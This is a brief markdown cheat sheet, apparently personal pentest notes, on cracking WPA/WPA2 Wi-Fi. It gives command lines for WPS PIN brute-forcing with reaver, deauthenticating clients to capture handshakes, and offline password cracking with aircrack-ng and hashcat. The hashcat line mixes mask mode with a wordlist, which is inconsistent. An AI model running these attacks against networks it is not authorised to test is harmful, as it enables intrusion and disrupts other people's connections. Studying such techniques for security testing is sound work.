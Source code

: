 ```yaml
---
title: WPA - WPA2 Cracking
---
```


### Crack WPS Enabled Networks

````bash
wash --interface <interface>
````

**Output**:  
Lck : Shows if WPS is locked (Can be locked after continuous failed attempts)  
dBm : Signal Strength

````bash
aireplay-ng --fakeauth 30 -a <router-bssid> -h <myadapter-bssid> <interface>
reaver --bssid <router-bssid> --channel <channel> --interface <interface> -vvv --no-associate
````

This attack will fail if PBA is enabled. The only way to confirm is by performing the attack

`--no-associate` flag prevents reaver from connecting to the network if the crack was successful (If not set reaver is found to fail in most of the cases)

---

### Crack WPS Disabled Networks

````bash
airodump-ng <interface>
airodump-ng --bssid <router-bssid> --channel <channel> --write <filename> <interface>
aircrack-ng <filename> -w <wordlist>
````

Handshake packet is only transferred when an new device connected to the network.
We can force an device to reconnect using an Deauth Attack

````bash
aireplay-ng --deauth <very-small-number> -a <router-bssid> -c <target-bssid> <interface>
````

If we open the .cap file in Wireshark we can see the "EAPOL (Extensible Authentication Protocol over LAN)" Packet  
i.e. The 4-Way Handshake performed by WPA  
For cracking use of `rockyou.txt` wordlist  
The cracking step can be performed using Hashcat more much faster bruteforcing using GPU

````bash
/usr/share/hashcat-utils/cap2hccapx.bin <cap-file> <filename>.hccapx
hashcat -m 2500 -a 3 -o <output-file> <handshake-file> <wordlist>
````